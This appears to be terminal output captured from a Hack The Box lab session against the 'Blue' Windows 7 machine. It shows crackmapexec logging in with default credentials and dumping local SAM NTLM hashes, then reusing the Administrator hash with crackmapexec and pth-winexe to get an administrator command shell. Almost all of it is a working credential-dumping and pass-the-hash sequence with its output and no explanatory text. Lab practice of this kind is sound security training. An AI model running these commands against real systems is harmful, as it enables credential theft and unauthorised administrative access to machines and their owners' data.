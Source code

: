 
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' --sam
CME          10.10.10.40:445 HARIS-PC        [*] Windows 6.1 Build 7601 (name:HARIS-PC) (domain:HARIS-PC)
CME          10.10.10.40:445 HARIS-PC        [+] HARIS-PC\admin:admin (Pwn3d!)
CME          10.10.10.40:445 HARIS-PC        [+] Dumping local SAM hashes (uid:rid:lmhash:nthash)
CME          10.10.10.40:445 HARIS-PC        Administrator:500:aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc:::
CME          10.10.10.40:445 HARIS-PC        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CME          10.10.10.40:445 HARIS-PC        haris:1000:aad3b435b51404eeaad3b435b51404ee:8002bc89de91f6b52d518bde69202dc6:::
[*] KTHXBYE!
root@kali:~/HTB/BLUE/AutoBlue-MS17-010#


root@kali:~/HTB/BLUE/AutoBlue-MS17-010# crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -x 'whoami'
CME          10.10.10.40:445 HARIS-PC        [*] Windows 6.1 Build 7601 (name:HARIS-PC) (domain:HARIS-PC)
CME          10.10.10.40:445 HARIS-PC        [+] HARIS-PC\Administrator cdf51b162460b7d5bc898f493751a0cc (Pwn3d!)
CME          10.10.10.40:445 HARIS-PC        [+] Executed command 
CME          10.10.10.40:445 HARIS-PC        haris-pc\administrator
[*] KTHXBYE!







root@kali:~/HTB/BLUE/AutoBlue-MS17-010# pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc //10.10.10.40 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
haris-pc\administrator

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::b8a4:c9fc:2488:f88a
   Temporary IPv6 Address. . . . . . : dead:beef::d36:f68c:c97d:f83
   Link-local IPv6 Address . . . . . : fe80::b8a4:c9fc:2488:f88a%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:a0b9%11
                                       10.10.10.2
